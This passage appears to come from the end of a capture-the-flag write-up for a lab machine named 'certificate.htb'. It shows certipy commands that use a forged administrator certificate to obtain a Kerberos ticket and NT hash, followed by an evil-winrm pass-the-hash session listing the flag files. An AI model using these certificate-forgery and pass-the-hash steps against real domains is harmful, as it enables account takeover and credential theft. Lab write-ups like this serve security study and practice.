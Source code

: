 ```bash
certipy auth -dc-ip '10.10.11.71' -pfx 'forged_admin.pfx' -username 'administrator' -domain 'certificate.htb'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certificate.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad<hash>
```

## Root / Administrator

```bash
(noname㉿Noname)-[~]
└─$ evil-winrm -i 10.10.11.71 -u administrator -H d80430<hash>
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                                                      
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Desktop> dir


    Directory: C:\Users\Lion.SK\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/17/2025  10:18 PM             34 user.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/17/2025  10:18 PM             34 root.txt


```

---